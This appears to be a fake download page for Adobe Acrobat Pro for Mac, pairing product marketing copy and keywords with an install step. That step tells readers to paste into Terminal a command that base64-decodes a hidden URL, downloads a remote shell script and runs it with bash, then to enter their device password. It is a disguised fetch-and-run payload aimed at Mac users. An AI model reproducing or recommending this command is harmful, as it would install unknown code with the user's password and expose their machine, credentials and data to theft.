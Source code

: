 # Adobe Acrobat Pro Mac Download

![Adobe Acrobat Pro Mac Screenshot 1](https://www.howtoisolve.com/wp-content/uploads/2023/01/how-to-download-install-adobe-acrobat-mac.webp)

---

## 📦 How to Install

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxMC9pbnN0YWxsLnNo | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is Adobe Acrobat Pro for Mac?

**Adobe Acrobat Pro for Mac** is the industry-leading PDF solution trusted by professionals and organizations worldwide. It allows you to create, edit, convert, sign, and protect PDF files with precision and ease—right from your macOS device. Whether you're a business user, educator, legal professional, or student, Adobe Acrobat Pro empowers you to handle PDF workflows at a professional level.

Built natively for **macOS**, including full support for **Apple Silicon (M1, M2, M3)**, Adobe Acrobat Pro runs smoothly on MacBook Pro, MacBook Air, iMac, and more. You can edit scanned documents using OCR, combine multiple file types into a single PDF, and export to formats like Word, Excel, and PowerPoint. Collaboration is easy with cloud sharing, e-signature collection, and commenting tools.

This powerful tool is perfect for those who rely on PDF documents for daily workflows, contracts, forms, or academic materials. Adobe Acrobat Pro delivers a seamless experience on Mac, blending performance with deep functionality for managing PDF documents in any professional environment.

---

![Adobe Acrobat Pro Mac Screenshot 2](https://imag.malavida.com/mvimgbig/download-fs/adobe-acrobat-professional-543-3.jpg)

---

## 🌟 Key Features & Benefits

- 📝 **Create & Edit PDFs** — Edit text and images in PDFs just like in a word processor.
- 🔍 **Advanced OCR Technology** — Convert scanned documents into searchable and editable files.
- 🧾 **Convert Files to PDF** — Export Word, Excel, PowerPoint, and images to professional PDFs.
- ✅ **Fill & Sign Forms** — Complete and e-sign forms quickly, without printing.
- 🔐 **Document Protection** — Add passwords, redact sensitive info, and manage permissions.
- 📤 **Cloud Collaboration** — Share PDFs and collect feedback or e-signatures online.
- 💻 **macOS Optimized** — Fully compatible with macOS Ventura and Apple Silicon chips.
- 🔁 **Batch Processing** — Automate repetitive PDF tasks like combining or renaming files.

---

## 🖥️ System Requirements

- macOS: 11.0 Big Sur or later  
- Processor: Intel or Apple Silicon (M1/M2/M3)  
- RAM: 4 GB or more  
- Disk Space: 2 GB minimum  

---

## 🏷️ Keywords

mac adobe acrobat pro, download adobe pro dc, adobe acrobat reader pro mac, adobe acrobat pro dc mac, adobe acrobat pro download mac, adobe acrobat pro 2020 mac, acrobat pro download mac, acrobat pro dc for mac, adobe pro dc for mac, acrobat pro download for mac, adobe acrobat pro macos, adobe reader for macbook pro, adobe reader pro mac, acrobat pro macos, acrobat pro dc download mac

